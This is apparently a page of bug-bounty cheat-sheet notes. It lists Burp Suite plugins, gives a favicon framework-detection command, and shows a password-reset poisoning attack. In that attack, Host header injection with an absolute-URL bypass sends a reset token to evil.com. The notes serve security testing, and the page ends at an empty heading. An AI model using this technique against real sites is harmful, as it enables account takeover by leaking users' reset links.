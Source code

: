 
### Cool BurpPlugins
```
Autorize – To test BACs (Broken Access Control)
Burp Bounty – Profile-based scanner
Active Scan++ – Add more power to Burp’s Active Scanner
AuthMatrix – Authorization/PrivEsc checks
Broken Link Hijacking – For BLH (Broken Link Hijacking)
Collaborator Everywhere – Pingback/SSRF (Server-Side Request Forgery)
Command Injection Attacker
Content-Type Converter – Trying to bypass certain restrictions by changing Content-Type
Decoder Improved – More decoder features
Freddy – Deserialization
Flow – Better HTTP history
Hackvertor – Handy type conversion
HTTP Request Smuggler
Hunt – Potential vuln identifier
InQL – GraphQL Introspection testing
J2EE Scan – Scanning J2EE apps
JSON/JS Beautifier
JSON Web Token Attacker
ParamMiner – Mine hidden parameters
Reflected File Download Checker
Reflected Parameter – Potential reflection
SAML Raider – SAML testing
Upload Scanner – File upload tester
Web Cache Deception Scanner
```
# Detect framework via favico
```
cat urls.txt | python3 favfreak.py -o output
```

### Password Poisoning
```
(1) Normal request:

Request:
POST /password-reset?user=123 HTTP/1.1
Host: target.com
Link received:
https://target.com/reset-link=1g2f3guy23g
(2) Basic HHI (Host Header Injection):

Request:
POST /password-reset?user=123 HTTP/1.1
Host: evil.com
Link received:
none
Error 404 - request blocked
(3) Bypass technique:

Request:
POST https://target.com/password-reset?user=123 HTTP/1.1
Host: evil.com
Link received:
https://evil.com/reset-link=1g2f3guy23g
```
### Find hostsname form given IP
